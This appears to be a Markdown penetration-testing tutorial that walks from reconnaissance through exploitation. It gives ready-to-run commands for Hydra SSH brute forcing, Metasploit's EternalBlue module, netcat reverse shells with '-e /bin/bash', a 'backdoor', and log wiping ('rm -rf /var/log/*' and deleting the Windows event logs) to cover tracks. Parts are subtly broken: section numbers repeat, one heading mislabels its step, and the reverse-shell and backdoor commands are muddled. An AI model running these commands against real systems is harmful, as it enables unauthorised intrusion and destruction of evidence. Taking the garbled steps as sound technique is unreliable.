

# IP Address Exploitation

Penetration testing on **IP addresses** involves more than just automated scripts. It requires knowledge of network protocols, tools, and an understanding of the testing phases. If you're looking for quick results or shortcuts, stop reading now.

<figure><figcaption></figcaption></figure>


**Important**: Only conduct penetration testing on networks and IPs you own or have explicit permission to test. Unauthorized testing is illegal.


### 1. Setting Up Your Environment

To begin, ensure you have the right tools. **Kali Linux** is recommended for penetration testers as it comes with numerous utilities.

#### 1.1 Installing Tools

Ensure tools such as Nmap, Metasploit, Hydra, Netcat, and Enum4Linux are installed:

```
sudo apt install nmap metasploit-framework netcat hydra enum4linux
```

### 2. Reconnaissance: Footprinting

Footprinting involves gathering information about your target before actively scanning. This is a passive phase and should not leave a trace.

#### 2.1 Passive Recon

Start by collecting public information about the target, such as DNS records, WHOIS data, and using services like **Shodan**.

*   **Whois Lookup**:

    ```
    whois <target-IP>
    ```
*   **DNS Information**:

    ```
    nslookup <target-IP>
    ```
*   **Shodan**: Query for exposed devices.

    ```
    shodan host <target-IP>
    ```

### 3. Scanning: Port Scanning and Service Detection

Now that you have some information, start scanning for open ports and services.

#### 3.1 Port Scanning with Nmap

Use Nmap to scan for open ports:

```
nmap -sS -Pn -p- <target-IP>
```

This scan will check all ports and use a **SYN scan** (`-sS`), which is stealthy.

#### 3.2 Service Detection

Once ports are identified, scan for service versions:

```
nmap -sV <target-IP>
```

### 3. Enumeration: Extracting More Details

During this phase, gather deeper details about the services running on the target.

#### 4.1 SMB Enumeration

For SMB services (port 445), use **enum4linux** to enumerate users and shares:

```
enum4linux -a <target-IP>
```

#### 4.2 SSH Enumeration

For SSH (port 22), brute-force weak passwords using **Hydra**:

```
hydra -L users.txt -P passwords.txt ssh://<target-IP>
```

### 5. Exploitation: Gaining Access

After gathering enough information, attempt exploitation. This is where vulnerabilities are leveraged to gain access.

#### 5.1 Exploiting SMB with Metasploit

If the SMB version is vulnerable (e.g., EternalBlue), use **Metasploit**:

```
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <target-IP>
run
```

#### 5.2 Brute Forcing SSH

If SSH credentials were found, use them to log in:

```
ssh <user>@<target-IP>
```

Alternatively, use Netcat to open a reverse shell:

```
nc -lvnp 4444  # Listener
nc <target-IP> 4444 -e /bin/bash  # Target
```

### 6. Post-Exploitation: Maintaining Access

After gaining access, escalate privileges and maintain access.

#### 6.1 Privilege Escalation

On **Linux**, check sudo permissions:

```
sudo -l
```

#### 6.2 Creating a Backdoor

For persistent access, install a backdoor:

```
nc -lvnp 4444
nc <target-IP> 4444 -e /bin/bash
```

### 7. Covering Your Tracks

To avoid detection, clear logs and other traces of your activity.

#### 7.1 Log Removal

For **Linux**:

```
rm -rf /var/log/*
```

For **Windows**:

```
del /f /s /q C:\Windows\System32\winevt\Logs\*
```

### 8. Reporting

Once testing is complete, document your findings. A solid report includes:

* Vulnerabilities found and exploited.
* Steps taken to gain access.
* Recommendations for remediation.

Penetration testing is a structured process that involves various phases such as reconnaissance, scanning, enumeration, exploitation, and post-exploitation. It requires understanding both the tools and the processes. Always ensure you have permission to conduct tests on a network or IP address.\
